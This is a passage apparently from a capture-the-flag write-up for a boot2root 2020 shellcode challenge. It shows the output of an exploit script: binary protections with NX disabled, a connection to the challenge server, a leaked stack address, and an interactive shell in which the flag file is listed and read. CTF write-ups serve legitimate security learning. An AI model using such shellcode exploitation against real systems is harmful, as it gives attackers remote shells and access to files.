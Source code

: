 # ./exploit.py REMOTE=1
[*] '/pwd/datajerk/boot2root2020/shellcode/shellcode'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
[+] Opening connection to 35.238.225.156 on port 1006: Done
[*] buff: 0x7fff7cc19470
[*] Switching to interactive mode
$ id
sh: 1: id: not found
$ ls -l
total 44
drwxr-x--- 1 0 1000  4096 Dec  6 14:16 bin
drwxr-x--- 1 0 1000  4096 Dec  6 14:16 dev
-rwxr----- 1 0 1000    23 Dec  6 15:31 flag
drwxr-x--- 1 0 1000  4096 Dec  6 14:16 lib
drwxr-x--- 1 0 1000  4096 Dec  6 14:16 lib32
drwxr-x--- 1 0 1000  4096 Dec  6 14:16 lib64
-rwxr-x--- 1 0 1000 16800 Dec  6 15:31 shellcode
$ cat flag
b00t2root{sehllz_c0de}
